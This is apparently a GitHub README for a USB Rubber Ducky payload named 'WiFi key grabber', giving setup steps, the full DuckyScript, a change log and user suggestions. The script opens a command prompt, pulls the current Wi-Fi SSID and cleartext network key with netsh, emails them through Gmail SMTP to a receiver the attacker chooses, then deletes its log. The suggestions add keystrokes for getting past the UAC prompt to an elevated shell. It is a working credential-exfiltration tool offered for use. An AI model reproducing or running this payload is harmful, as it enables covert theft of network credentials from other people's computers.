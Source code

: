 ### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* Make sure your Gmail password does not start with a capital letter, in some locales this causes the quote to be merged with the letter; 'Ä' '"A'
* Make sure you have allowed less secure apps to login on your google account; 
* https://support.google.com/accounts/answer/6010255
* **RECEIVER**: The email you want to send the contents of 'log' to

## **Code**;
```
REM Title: WiFi key grabber
REM Author: SiemH
REM Version: 7
REM Description: 
REM 20 sec payload that finds the SSID, Network type, 
REM Authentication type and the network key, saves those to 'log' 
REM and creates an SMTP server and emails the contents of 'log'
REM using the specified Gmail account to the specified receiver.

REM FASE 1: Preparation
DELAY 3000
REM --> Minimize all windows
WINDOWS d
DELAY 250
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 200

REM FASE 2: Information gathering
REM --> Find the SSID and set 'a'
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=:"  %a in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set a=%a
ENTER
STRING set a="%a:~1%"
ENTER
REM --> Get raw info and set 'a'
STRING netsh wlan show profiles %a% key=clear | findstr /c:"Network type"  /c:" Authentication"  /c:"Key Content"| findstr /v "broadcast"| findstr /v "Radio">>a
ENTER
REM --> Find the Network type in the raw info and set 'b'
STRING for /f "tokens=3 delims=: "  %a in ('findstr "Network type"  a') do set b=%a
ENTER
REM --> Find the auth type in the raw info and set 'c'
STRING for /f "tokens=2 delims=: "  %a in ('findstr " Authentication"  a') do set c=%a
ENTER
REM --> Find the key content in the raw info and set 'd'
STRING for /f "tokens=3 delims=: "  %a in ('findstr "Key Content"  a') do set d=%a
ENTER
REM --> Delete raw info / 'a'
STRING del a
ENTER
REM --> Write all info to log
STRING echo ssid: %a%>>log & echo type: %b%>>log & echo auth: %c%>>log & echo key: %d%>>log
ENTER

REM FASE 3: Phone home
REM --> Create an SMTP server with specified credentials and send log to specified receiver
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
REM --> Google account login, password must start with a lowercase letter
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
REM --> Log receiver
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content log | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 500

REM FASE 4: Final cleanup
REM --> Delete log and exit
STRING del log & exit
ENTER
```

### Change log;
1. Original
2. Bug fixes and narrowed commands
3. Send contents of log instead the file itself
4. Removed the space as delimiter
5. Added the STRING set A="%A:~1%" to be able to use SSID's with spaces as well
6. Removed .txt extensions, made variables and file names lower case, removed unnecessary text from log and added some more comments
7. Added some spaces, quote interferance; sometimes 'Ä' instead of '"A'

### Suggestions;
**If you have any suggestions, write them down here.**
- DELAY 50 between powershell exit and cmd exit
- If the SSID has a space like "TPLINK HOME" then 'a' would be set to "TPLINK"; error "Profile "TPLINK" is not found on the system" **FIXED**
- Added delay after sending SMTP message, to make sure the 'exit' and 'del log' are executed
- The cmd prompt must be elevated to get any passwords.  If you change from using the WINDOWS r to using the search menu for "cmd" and pressing ctrl+shift+enter you can get a UAC prompt.  From there you'd need to alt+Y to get the elevated prompt. You can also use the run box but with the following command in Win7 and later:
powershell Start-Process cmd -Verb runAs
- **This is only true in some cases, for me personally it works without the elevated prompt on multiple systems.**
```
REM FASE 1: Preparation
DELAY 3000
REM --> Minimize all windows
WINDOWS d
DELAY 250
REM --> Open cmd as administrator
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 500
```